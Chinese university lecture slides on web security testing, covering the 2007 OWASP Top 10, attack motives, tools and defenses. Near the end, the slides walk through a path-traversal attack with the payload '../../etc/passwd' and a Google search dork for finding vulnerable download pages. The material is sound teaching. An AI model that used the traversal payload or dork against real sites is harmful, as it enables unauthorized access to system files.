# 软件测评-7-Web安全性测试

<!-- slide: 1 -->

- <number>
- 2010年度广州市电子商务发展专项资金
- 扶持项目
- 软件测试与质量保障
- 华南理工大学计算机科学与工程学院
- 聂勇伟 副教授
- nieyongwei@scut.edu.cn
- 第七章 - Web安全性测试

> 备注：Web安全性:病毒网络传播才有意义
安全性测试：必须先要知道安全屏障是怎么被突破的，才能进行有效的测试
安全漏洞是一些已知的，甚至是已经被解决的，而不是最新的。但是原则上差不多

<!-- slide: 2 -->

## 目录

- Web对象直接引用
- 二
- 三
- 四
- 恶意代码执行
- 一
- 背景
- 注入攻击
- 五
- 跨站脚本攻击
- 六
- Google Hack
- OWASP漏洞攻防
- 七

<!-- slide: 3 -->

- Web来源于World Wide Web，Web系统是Internet的重要组成部分，形形色色的Web系统正在改变着我们的生活：

- 网上购物
- 网上汇款交费
- 写博客
- Web小游戏

- 竞选
- 网上营业厅
- Web丰富了我们的生活

<!-- slide: 4 -->

## 软件安全测试

- 软件安全测试是指有关验证软件的安全等级和识别潜在安全性缺陷的过程。其主要目的是查找软件自身程序设计中存在的安全隐患,并检查应用程序对非法侵入的防范能力,根据安全指标不同测试策略也不同。做好软件安全性测试的必要条件是:一是充分了解软件安全漏洞,二是评估安全风险,三是拥有高效的软件安全测试技术和工具。

<!-- slide: 5 -->

## 安全系统防护体系


- 系统之间数据通信和会话访问不被非法侵犯。

- 网络平台、操作系统、基础通用应用平台(服务/数据库等)的安全。

- 基础设施的物理安全。

- 系统数据的机密性、完整性、访问控制和可恢复性。

- 业务运行逻辑安全/业务资源的访问控制；业务交往的不可抵赖性/业务实体的身份鉴别/业务数据的真实完整性

- 实体安全

- 通信安全

- 应用安全

- 数据安全

- 1

- 平台安全

- 2

- 3

- 4

- 5

- 6

- 7

- 对系统安全性的动态维护和保障，控制由于时间推移和系统运行导致安全性的变化。

- 运行安全

- 对相关人员、技术和操作进行管理，总揽以上各安全要素进行控制。

- 管理安全

<!-- slide: 6 -->

## Web 应用的架构

- 数据层
- 中间层
- 客户端

- Internet



- 防火墙
- Web
- 服务器
- 应用
- 服务器
- 数据库

<!-- slide: 7 -->

## 信息安全全景







- Web
- 服务器
- 应用
- 服务器

- IDS(入侵诊断系统)
- IPS(入侵防御系统)

> 备注：防火墙是一种用于监控入站和出站网络流量的网络安全设备，可基于一组定义的安全规则来决定是允许还是阻止特定流量。

25 年多来，防火墙一直是网络安全的第一道防线。 它们在安全、可控的可信任内部网络与不可信任的外部网络（如互联网）之间建立了一道屏障。 

防火墙既可以纯硬件或纯软件，也可以是硬件和软件的组合。

<!-- slide: 8 -->

## Web系统逐渐成为企业安全边界之一

- 防火墙
- 加固OS
- Web服务器
- 应用服务器
- 防火墙
- 数据库
- 历史遗留系统
- Web Services
- 文件目录
- 人力系统
- 计费系统
- 定制的应用程序

- 应用层攻击
- 仅仅使用网络层的防护手段 (防火墙, SSL, IDS, 加固)
- 无法阻止或检测到应用层攻击
- 网络层
- 应用层
- 应用层作为安全边界的一部分，或许有巨大的漏洞

<!-- slide: 9 -->

## 而Web系统的安全性参差不齐……

- 复杂应用系统代码量大、开发人员多、难免出现疏忽；
- 系统屡次升级、人员频繁变更，导致代码不一致；
- 历史遗留系统、试运行系统等多个Web系统共同运行于同一台服务器上；
- 开发人员未经过安全编码培训；
- 定制开发系统的测试程度不如标准的产品；
- ……
- 客户
- 满意
- 界面友好
- 操作方便
- 处理
- 性能
- 实现
- 所有功能
- 架构合理
- 代码修改方便
- 运行
- 稳定
- 没有bug
- 不同模块
- 低耦合
- 相对安全性而言，开发人员更注重系统功能！
- 开发进度与成本
- 开发者的关注点

<!-- slide: 10 -->

## 定制开发的Web应用 = 企业安全的阿基里斯之踵


- “目前，75% 的攻击发生在应用层”
- Gartner, 2006
- “2006年前9个月内新发现4,375 个漏洞. Web漏洞是其中最普遍的三类之一.”
- Mitre Corp, 09/2006，CVE的维护者
  - “产品的定制开发是应用安全中最薄弱的一环”.
  - Gartner, 09/2005
  - “到2009年, 80%的企业都将成为应用层攻击的受害者”.
  - Gartner, 2007

<!-- slide: 11 -->

## Web攻击场景

- 攻击动机
- 攻击方法
- 攻击工具
- 系统漏洞

- 防范措施

- 攻击面（attack surface）
- Web服务器
- 黑客

<!-- slide: 12 -->

## Web攻击动机

- 常见Web攻击动机
- 恶作剧；
- 关闭Web站点，拒绝正常服务；
- 篡改Web网页，损害企业名誉；
- 免费浏览收费内容；
- 盗窃用户隐私信息，例如Email；
- 以用户身份登录执行非法操作，从而获取暴利；
- 以此为跳板攻击企业内网其他系统；
- 网页挂木马，攻击访问网页的特定用户群；
- 仿冒系统发布方，诱骗用户执行危险操作，例如用木马替换正常下载文件，要求用户汇款等；
- ……

- 常用的挂马exploit
- MS07-017 MS Windows Animated Cursor (.ANI) Remote Exploit
- MS07-019
- MS07-004 VML Remote Code Execution
- MS06-073
- MS06-071 XML Core Services Remote Code Execution
- MS06-068
- MS06-067
- MS06-057 WebViewFolderIcod ActiveX
- MS06-055
- MS06-014 MDAC Remote Code Execution
- MS06-013
- MS06-005
- MS06-004
- MS06-001

<!-- slide: 13 -->

## Web攻击方法

- 常见Web攻击方法
- Google hack
- 网页爬行
- 暴力猜解
- Web漏洞扫描
- 错误信息利用
- 根据服务器版本寻找现有的攻击代码
- 利用服务器配置漏洞
- 文件上传下载
- 构造恶意输入（SQL注入攻击、命令注入攻击、跨站脚本攻击）
- HTTP协议攻击
- 拒绝服务攻击
- 其他攻击点利用（Web Services, Flash, Ajax, ActiveX, JavaApplet）
- 业务逻辑测试
- ……
- 收集系统相关的通用信息
- 将系统所有能访问页面，所有的资源，路径展现出来
- URL、口令、数据库字段、文件名都可以暴力猜解，注意利用工具；
- 利用Web漏洞扫描器，可以尽快发现一些明显的问题
- 错误可能泄露服务器型号版本、数据库型号、路径、代码；
- 搜索Google，CVE, BugTraq等漏洞库是否有相关的漏洞
- 服务器后台管理页面，路径是否可以列表等
- 是否可以上传恶意代码？是否可以任意下载系统文件？
- 检查所有可以输入的地方：URL、参数、Post、Cookie、Referer、 Agent、……系统是否进行了严格的校验？
- HTTP协议是文本协议，可利用回车换行做边界干扰
- 用户输入是否可以影响服务器的执行？
- 需要特殊工具才能利用这些攻击点
- 复杂的业务逻辑中是否隐藏漏洞？

<!-- slide: 14 -->

## Web攻击工具：WebScarab

- 特色：
  - HTTP协议完全可见（可以完全操作所有的攻击点）
  - 支持HTTPS (包括客户端证书)
  - 全程数据与状态记录，可随时回顾

- http://www.owasp.org
- OWASP=Open Web Application Security Project，OWASP是最权威的Web应用安全开源合作组织，其网站上有大量的Web应用安全工具与资料。
- Nokia是其成员之一
- WebScarab是OWASP组织推出的开源工具，可应用于一切基于HTTP协议系统的调试与攻击；

<!-- slide: 15 -->

## Web攻击面：不仅仅是浏览器中可见的内容

- 访问资源名称
- GET与POST参数
- Referer与User Agent
- HTTP 方法
- Cookie
- Ajax
- Web Service
- Flash客户端
- Java Applet
- POST /thepage.jsp?var1=page1.html HTTP/1.1
- Accept: */*
- Referer: http://www.myweb.com/index.html
- Accept-Language: en-us,de;q=0.5
- Accept-Encoding: gzip, deflate
- Content-Type: application/x-www-url-encoded
- Content-Lenght: 59
- User-Agent: Mozilla/4.0
- Host: www.myweb.com
- Connection: Keep-Alive
- Cookie: JSESSIONID=0000dITLGLqhz1dKkPEtpoYqbN2
- uid=fred&password=secret&pagestyle=default.css&action=login
- 直接可在浏览器中利用的输入
- 所有输入点
- 更多输入点
- 黑客实际利用的输入点

<!-- slide: 16 -->

## Web攻击漏洞：安全漏洞库

- Securityfocus网站的漏洞库名称为Bugtraq，它给每个漏洞编号叫Bugtraq ID。它的网址为：http://www.securityfocus.com/bid。
- Cve是和Bugtraq齐名的漏洞库，它给漏洞库编号叫CVE ID，它的网址为：http://cve.mitre.org/。
- CVE与Bugtraq漏洞库都会对确认的漏洞进行统一编号，其编号是业界承认的统一标准，有助于避免混淆。在这些漏洞库中都可以查到大量的Web应用漏洞。

<!-- slide: 17 -->

## 安全防护策略



<!-- slide: 18 -->

## 安全性测试的方法



<!-- slide: 19 -->

## Web攻击漏洞：2007 OWASP Top 10

- 2007年3月， OWASP对最新的Web应用漏洞按类别进行排名，并将前十名的脆弱性类别编制成册。http://www.owasp.org/index.php/OWASP_Top_Ten_Project
- 其中前5名与SANS定期更新的Top20榜中Web应用脆弱性前5名基本一致。
- http://www.sans.org/top20
- 跨站脚本
- 注入
- 恶意代码
- 引用不当
- CSRF

<!-- slide: 20 -->

## 2007 OWASP Top 10：第一名～第四名

| No. | 漏洞名称 | 简介 | 举例 |
|---|---|---|---|
| A1 | 跨站脚本 Cross Site Scripting,简称为XSS | 如果Web应用没有对攻击者的输入进行适当的编码和过滤，就转发给其他用户的浏览器时，可能导致XSS漏洞。 攻击者可利用XSS在其他用户的浏览器中运行恶意脚本，偷窃用户的会话，或是偷偷模拟用户执行非法的操作； | 发帖子，发消息 |
| A2 | 注入 Injection Flaws | 如果Web应用没有对攻击者的输入进行适当的编码和过滤，就用于构造数据库查询或操作系统命令时，可能导致注入漏洞。 攻击者可利用注入漏洞诱使Web应用执行未预见的命令（即命令注入攻击）或数据库查询（即SQL注入攻击）。 | 搜索用户 |
| A3 | 恶意代码执行 Malicious File Execution | 如果Web应用允许用户上传文件，但对上传文件名未作适当的过滤时，用户可能上载恶意的脚本文件（通常是Web服务器支持的格式，如ASP，PHP等）； 脚本文件在Include子文件时，如果Include路径可以被用户输入影响，那么可能造成实际包含的是黑客指定的恶意代码； 上述两种情况是造成恶意代码执行的最常见原因。 | 上传附件，上传头像 |
| A4 | 对象直接引用 Insecure Direct Object Reference | 访问内部资源时，如果访问的路径（对文件而言是路径，对数据库而言是主键）可被攻击者篡改，而系统未作权限控制与检查的话，可能导致攻击者利用此访问其他未预见的资源； | 下载文件 |

<!-- slide: 21 -->

## 2007 OWASP Top 10：第五名～第十名

| No. | 漏洞名称 | 简介 | 举例 |
|---|---|---|---|
| A5 | 跨站请求伪造 Cross Site Request Forgery,简称为CSRF | CSRF攻击即攻击者在用户未察觉的情况下，迫使用户的浏览器发起未预见的请求，其结果往往损害用户本身的利益。 CSRF攻击大多利用Web应用的XSS漏洞，也有很多CSRF攻击没有利用XSS而是利用了HTML标签的特性。 | 不明邮件中隐藏的html链接 |
| A6 | 信息泄露与错误处理不当 Information Leakage and Improper Error Handling | Web应用可能不经意地泄露其配置、服务器版本、数据库查询语句、部署路径等信息，或是泄露用户的隐私。攻击者可利用这些弱点盗窃敏感信息。 | 错误信息揭示路径 |
| A7 | 认证与会话管理不当 Broken Authentication and Session Management | 如果Web应用的认证与会话处理不当，可能被攻击者利用来伪装其他用户身份 |  |
| A8 | 存储不安全 Insecure Cryptographic Storge | 如果Web应用没有正确加密存储敏感信息，可能被攻击者盗取。 例如攻击者可能通过SQL注入手段获取其他用户的密码，如果Web应用对密码进行了加密，就可以降低此类威胁。 |  |
| A9 | 通讯加密不安全 Insecure Communication | 如果Web应用没有对网络通讯中包含的敏感信息进行加密，可能被窃听 |  |
| A10 | URL访问控制不当 Failure to Restrict URL Access | 如果Web应用对URL访问控制不当，可能造成用户直接在浏览器中输入URL，访问不该访问的页面 |  |

<!-- slide: 22 -->

## OWASP TOP 10，您打算从哪里开始？













- 2
- 3
- 4
- 5
- 6
- 7
- 8
- 9
- 10
- 1

<!-- slide: 23 -->

## 目录

- Web对象直接引用
- 二
- 三
- 四
- 恶意代码执行
- 一
- 背景
- 注入攻击
- 五
- 跨站脚本攻击
- 六
- Google Hack
- OWASP漏洞攻防
- 七

<!-- slide: 24 -->

## 2007 OWASP 第10名：URL访问控制不当

- 举例：有的Web应用对页面权限控制不严，原因是缺乏统一规范的权限控制框架，导致部分页面可以直接从URL中访问，绕开登录认证。
- 防范措施：统一规范权限控制。

| A10 | URL访问控制不当 Failure to Restrict URL Access | 如果Web应用对URL访问控制不当，可能造成用户直接在浏览器中输入URL，访问不该访问的页面 |
|---|---|---|

<!-- slide: 25 -->

## 2007 OWASP 第9名

- 举例：网络窃听（Sniffer）可以捕获网络中流过的敏感信息，如密码，Cookie字段等。高级窃听者还可以进行ARP Spoof，中间人攻击。
- 防范措施：通讯加密。

| A9 | 通讯加密不安全 Insecure Communication | 如果Web应用没有对网络通讯中包含的敏感信息进行加密，可能被窃听 |
|---|---|---|

- Host A
- Host B
- Router A
- Router B

<!-- slide: 26 -->

## 2007 OWASP 第8名

- 举例：很多Web应用将用户口令以明文的方式保存，一旦黑客能够通过其他漏洞获取这些口令，就可以伪造他人身份登录，包括系统管理员。
- 建议：采用安全的算法加密保存口令。

| A8 | 存储不安全 Insecure Cryptographic Storge | 如果Web应用没有正确加密存储敏感信息，可能被攻击者盗取。 例如攻击者可能通过SQL注入手段获取其他用户的密码，如果Web应用对密码进行了加密，就可以降低此类威胁。 |
|---|---|---|

<!-- slide: 27 -->

## 2007 OWASP 第7名

- 举例：有的Web应用登录界面允许攻击者暴力猜解口令，在自动工具与字典表的帮助下，可以迅速找到弱密码用户。

| A7 | 认证与会话管理不当 Broken Authentication and Session Management | 如果Web应用的认证与会话处理不当，可能被攻击者利用来伪装其他用户身份 |
|---|---|---|

- 防范措施：图片认证码，双因素认证


<!-- slide: 28 -->

## 2007 OWASP 第6名

- 举例：错误页面往往泄露系统内部敏感信息
- 防范措施：
- 在所有的运行代码中进行规范的异常处理。
- 已处理的异常和未处理的异常应该始终将提供的可能有助于黑客攻击的信息减到最少。例如在登录系统时，不论是用户名不存在还是密码错误都应该提示相同的错误信息。

| A6 | 信息泄露与错误处理不当 Information Leakage and Improper Error Handling | Web应用可能不经意地泄露其配置、服务器版本、数据库查询语句、部署路径等信息，或是泄露用户的隐私。攻击者可利用这些弱点盗窃敏感信息。 |
|---|---|---|

<!-- slide: 29 -->

## 2007 OWASP 第6名：Case 1

- 泄露服务器Tomcat版本


<!-- slide: 30 -->

## 2007 OWASP 第6名： Case 2

- 泄露数据库查询语句；
- 泄露数据库为Oracle；


<!-- slide: 31 -->

## 2007 OWASP 第6名： Case 3

- 泄露数据库为Microsoft SQL Server


<!-- slide: 32 -->

## 2007 OWASP 第6名： Case 4

- 泄露数据库为MySQL


<!-- slide: 33 -->

## 2007 OWASP 第6名： Case 5

- 泄露服务器目录


<!-- slide: 34 -->

## 总结

- 前面简介OWASP漏洞排名第10名到第6名的漏洞攻防；
- 接下来将详细介绍第5名到第1名；
- 我们把XSS与CSRF合并在一起介绍，顺序如下：
- Insecure Direct Object Reference：直接对象引用
- Malicious File Execution：恶意代码
- Injection：注入
- XSS and CSRF：跨站脚本与跨站请求伪造

<!-- slide: 35 -->

## 目录

- Web对象直接引用
- 二
- 三
- 四
- 恶意代码执行
- 一
- 背景
- 注入攻击
- 五
- 跨站脚本攻击
- 六
- Google Hack
- OWASP漏洞攻防
- 七

<!-- slide: 36 -->

## 对象直接引用

| A4 | 对象直接引用 Insecure Direct Object Reference | 访问内部资源时，如果访问的路径（对文件而言是路径，对数据库而言是主键）可被攻击者篡改，而系统未作权限控制与检查的话，可能导致攻击者利用此访问其他未预见的资源； | 下载文件 |
|---|---|---|---|

- 目标：获取服务器的etc/passwd文件
- 方法：Web服务器一般缺省不允许攻击者访问Web根目录以外的内容。但是对Web应用却不做限制，因此……

- 操作系统
- Web应用
- Web服务器
- 我想看etc/passwd
- Access Denied!
- 我想看etc/passwd
- OK!
- 我想看etc/passwd
- OK!

<!-- slide: 37 -->

## 对象直接引用

- Step 1.右键点击中间的图片，查看其链接属性：


<!-- slide: 38 -->

## 对象直接引用

- Step 2.
- 是否观察到其中file是作为plotStat.php的一个参数传入，那么我们用file指向其他敏感文件试试看：


<!-- slide: 39 -->

## 对象直接引用

- Step 3. 构造参数/../../../../../../../../../etc/passwd拿到etc/passwd!


<!-- slide: 40 -->

## 对象直接引用

- Step 4. 推广开去：攻击，Google搜索 inurl:"download.jsp?file="：
